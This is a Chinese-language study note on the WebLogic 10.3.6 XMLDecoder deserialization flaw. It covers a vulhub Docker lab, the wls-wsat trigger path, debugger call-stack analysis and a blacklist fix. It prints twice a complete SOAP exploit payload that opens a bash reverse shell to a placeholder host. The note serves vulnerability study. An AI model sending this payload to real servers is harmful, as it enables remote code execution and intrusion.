 # Weblogic

docker-compose.yml

```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic:10.3.6.0-2017
   ports:
    - "7001:7001"
    - "12345:12345"                      
```

以及相关配置：https://www.cnblogs.com/ph4nt0mer/archive/2019/10/31/11772709.html

##  XMLDecoder反序列化

[学习](https://github.com/Maskhe/javasec/blob/master/17.XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.md)

看完上面师傅的流程，引发几个思考？
XMLDecoder底层工作原理？（未看）
为什么网上大量的payload弹计算器都用java.lang.ProcessBuilder这个类来触发？（`会报错异常、因为java.lang.Runtime的构造方法为private`）

## Wblogic中的XMLDecoder反序列化

```java
/wls-wsat/CoordinatorPortType    //触发路径
```

远程调试后可以断点在触发点
观察其调用栈：
![image-20221105114925440](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202211051149504.png)

很明显知道其触发了`XMLDecoder.readObject`

payload为什么这么构造？

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0_131" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/ip/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body />
</soapenv:Envelope>
```

前面一部分是因为weblogic中固定了：
![image-20221105120055622](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202211051200713.png)

最后获取到

```
            <java version="1.8.0_131" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/ip/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
```

![image-20221105120416082](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202211051204250.png)

这里可以看到恶意payload被传入至`new WorkContextXmlInputAdapter()`中
也可以与最后的触发点想对应。
## 修复方式
采用添加黑名单的方式：
https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704

